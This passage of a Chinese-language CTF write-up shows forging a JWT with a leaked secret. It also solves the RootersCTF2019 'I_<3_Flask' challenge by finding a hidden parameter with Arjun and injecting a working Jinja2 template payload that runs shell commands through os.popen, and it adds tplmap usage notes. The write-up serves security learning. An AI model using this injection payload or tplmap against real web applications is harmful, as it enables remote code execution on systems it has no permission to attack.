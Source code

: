 

得到

```
<script>alert('02a6945180e332ddf02ba874fc1ae706a43e82bd324b47fcbdac8208f9b5dac1702ba6280a9ad64798703fd2f3b75c8b22fa0390b3d6c9df18c3ad7d3323c195 working successfully!')</script>
```



哪一长串数字就是secret ,拿到 https://jwt.io/ ，伪造jwt即可，flag在buy flag后的cookie 里，还是拿jwt解密即为flag



## [RootersCTF2019]I_<3_Flask

知识点：

1. **隐含参数查找**
2. 常规flask模板注入
3. tplmap的使用

题目不难，不过第一次遇到这种题型记录一下。

**一开始进去，发现这仿佛是一个静态的网页，没有传参没有交互。扫目录也没有任何信息泄露，入口都找不到咋做题…通过百度知道存在隐藏参数，这里用到一个隐藏参数查找的工具 Arjun**

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu22.jpg)



通过工具，知道有参数name 

接下去就是常规模板注入了

学到了利用CTRL + F 知道可利用类位置的小方法

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu23.jpg)

payload:
```
 {{''.__class__.__mro__[1].__subclasses__()[182].__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
```



或者直接使用tplmap工具

```
Usage: python tplmap.py [options]

选项:
  -h, --help          显示帮助并退出

目标:
  -u URL, --url=URL   目标 URL
  -X REQUEST, --re..  强制使用给定的HTTP方法 (e.g. PUT)

请求:
  -d DATA, --data=..  通过POST发送的数据字符串 它必须作为查询字符串: param1=value1&param2=value2
  -H HEADERS, --he..  附加标头 (e.g. 'Header1: Value1') 多次使用以添加新的标头
  -c COOKIES, --co..  Cookies (e.g. 'Field1=Value1') 多次使用以添加新的Cookie
  -A USER_AGENT, -..  HTTP User-Agent 标头的值
  --proxy=PROXY       使用代理连接到目标URL

检测:
  --level=LEVEL       要执行的代码上下文转义级别 (1-5, Default: 1)
  -e ENGINE, --eng..  强制将后端模板引擎设置为此值
  -t TECHNIQUE, --..  技术 R:渲染 T:基于时间的盲注 Default: RT

操作系统访问:
  --os-cmd=OS_CMD     执行操作系统命令
```